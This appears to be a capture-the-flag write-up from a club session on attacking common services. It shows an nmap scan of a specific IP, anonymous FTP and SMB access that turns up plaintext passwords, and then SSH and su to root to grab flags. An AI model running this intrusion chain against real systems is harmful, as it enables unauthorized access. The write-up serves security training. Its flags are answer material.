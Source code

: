 ### Session : Attacking Common Services

![logo](assets/image.png)

First we ran a nmap scan to see the open ports in the machine:
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ nmap -sC -sV 50.116.12.218
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 22:07 +0530
Nmap scan report for 50-116-12-218.ip.linodeusercontent.com (50.116.12.218)
Host is up (0.26s latency).
Not shown: 976 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
21/tcp    open     ftp             vsftpd 3.0.5
|_ftp-bounce: bounce working!
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             105 Jan 03 16:35 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:175.157.18.223
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:c3:b3:6d:3d:78:76:59:23:d1:d1:a7:c5:4c:6c:d4 (RSA)
|   256 a4:4b:16:e4:3e:eb:ac:a3:59:02:27:60:9a:7f:d9:33 (ECDSA)
|_  256 7e:6b:50:88:61:06:df:0f:c3:cc:1a:d6:b4:7f:1f:26 (ED25519)
25/tcp    open     smtp?
|_smtp-commands: Couldn't establish connection on port 25
139/tcp   open     netbios-ssn?
445/tcp   open     netbios-ssn     Samba smbd 4.6.2
```

We were able to see that port 21 is running `vsftpd 3.0.5` and `anonymous` login is enabled and there is a `note.txt` detected by nmap. continuing our reading, we were able to see that port 445 is open and it is running `Samba smbd 4.6.2`.

We first connected to ftp using the command `ftp {machine_ip}` and logged in as the `anonymous` user. Since `anonymous` login is enabled, we can just press `Enter` or type any password we want for the `password` and login.

After logging in, we were able to see a file named `note.txt`. So we downloaded it to our local machine using the `get` command and exited the `ftp` service.

![Image1](assets/image1.png)
We then used the `cat` command to read the contents inside the file and was able to see this note:
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ cat note.txt 
Why are you keep forgetting your Samba share credentials chami? use the password 'sambaisfun' to login..
```

We were able to see a username called `chami` and a password called `sambaisfun`.
### Samba
We then enumerated the available samba shares for the user `Chami` using the below command and was able to see a share named `LNBTI`.
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ smbclient -L //50.116.12.218 -U chami
WARNING: no network interfaces found
Password for [WORKGROUP\chami]:

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
LNBTI           Disk      
IPC$            IPC       IPC Service (localhost server (Samba, Ubuntu))

```

We then connected to the smb share `LNBTI` as the user `chami` using the below command:
```
smbclient //50.116.12.218/LNBTI -U chami
```

We were then able to find a `password.txt` file. We used the `get` command again and downloaded the file to our local machine and exited the service.
![Image2](assets/image2.png)

We then again used the `cat` command to see the contents inside the file.
```
┌──(dest1ny㉿kali-linux-2022-2)-[/tmp/hehe]
└─$ cat password.txt 
Chami, I resetted your account password again to 'ilovechocolates' as you keep forgetting it. Don't lose it again. - Admin
```

We were able to get the password of the user `chami` . so we used ssh to login into chami using the below command :
```
ssh chami@{MACHINE_IP}
```

We were then able to grab the user flag:
```
chami@localhost:~$ cat user_flag.txt 
LNBTI{F1nally_Y0u_f0und_m3}
```

Looking more into the directory using the `ls` command, we were able to find a `mail.txt` and it had the password of the root user. (The root user in linux is like the Administrator user in Windows). 
```
chami@localhost:~$ cat mail.txt 
Chami, you know something? Our admin loves the batman series, i bruteforced his password and was able to find that his password is 'iLoveBatMan00##' . Pretty stupid isn't it? - Destiny
```

We were able to use the `su` command and switched into the `root` user and grab the root flag:
```
chami@localhost:~$ su root
Password: 
root@localhost:/home/chami# cd /root
root@localhost:~# ls
root_flag.txt
root@localhost:~# cat root_flag.txt 
LNBTI{CTF_CLUB_RULES_at_ROOT!}
```

Optional : We can use ssh to login into the `root` user too by using the command :

```
ssh root@{MACHINE_IP}
```
